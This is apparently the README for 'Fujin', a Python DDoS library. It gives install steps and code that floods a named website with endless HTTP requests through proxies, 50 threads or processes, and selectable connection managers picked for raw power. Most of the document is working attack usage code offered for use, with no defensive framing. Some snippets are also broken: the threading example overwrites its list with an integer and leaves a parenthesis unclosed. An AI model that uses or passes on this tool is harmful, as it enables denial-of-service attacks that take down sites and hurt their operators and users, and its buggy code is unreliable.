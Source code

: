 # Documentation
Happy learnings

## Install
```
pip install Fujin
```

## Initialise Object
```
from Fujin import Fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
```

## Run a simple Asynchronous DDoS
This will run an Infinite Loop Synchronous function that should infinitely send traffic to your selected website.
```
from Fujin import fujin

url = "https://999root.xyz/"

headers = {
  "User-Agent": "fucking user agent",
  "Accept-Encoding": "gzip"
}

ddos = Fujin(url=url, header=headers)
ddos.begin_async_get_attack()
```

## Use proxies
```
from Fujin import fujin

url = "https://999root.xyz/"

proxies = {
  "http": "http://[proxy]"
}

ddos = Fujin(url=url, proxies=proxies)
```

## Use threading or multiprocessing to speed up our DDoS
```
# Daemon = run in the background / threads = how many threads would you like to run
ddos.thread_async_attack(threads=50, daemon=True)
ddos.thread_sync_attack(threads=50, daemon=True)
```

```
ddos.multiproc_sync_attack(processes=50, daemon=True)
ddos.multiproc_async_attack(processes=50, daemon=True)
```

## Choose a pooling manager
Fujin gives you a choice of 3 pooling managers
- Python Requests ( requests.session() )
- AIOHTTTP Async Based Session Manager ( aiohttp.ClientSession() )
- URLLIB3 Pooling Manager ( urllib3.PoolingManager() )

Make sure you choose a pooling manager otherwise the program will prompt you to choose one. I do this because some of the pooling managers are freakishly powerful

#### Python requests
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="requests")
```

#### AIOHTTP
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="aiohttp")
```

#### URLLIB3
```
ddos = fujin(url="fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="urllib3")
```

### SOCKET
```
# I would advise putting http:// at the start as we are directly sending HTTP Requests to the port with this one
ddos = fujin(url="http://fuckingwebsite.com")
ddos.thread_async_attack(threads=50, pooling_manager="socket")
```

# Threading Setup
```
# Array Data Structure to store your threads in
threads = []

# Number of threads
threads = 50

for x in range(threads):
  t = threading.Thread(target=attack_initialiser, args=[url, headers]
  t.daemon = True
  t.start() # Saves us opening up a 3rd separate loop
  threads.append(t)

for x in range(threads):
  threads[x].join()
```

# Example Script
```
from Fujin import fujin

url = "yourwebsite.com"

headers = {
  "User-Agent": "some user agent",
  "Accept-Encoding": "gzip"
}

ddos = fujin(url=url, header=headers)
ddos.thread_async_attack(threads=50, daemon=True, pooling_manager="aiohttp")
```

## What's faster sync or async
asnyc mate
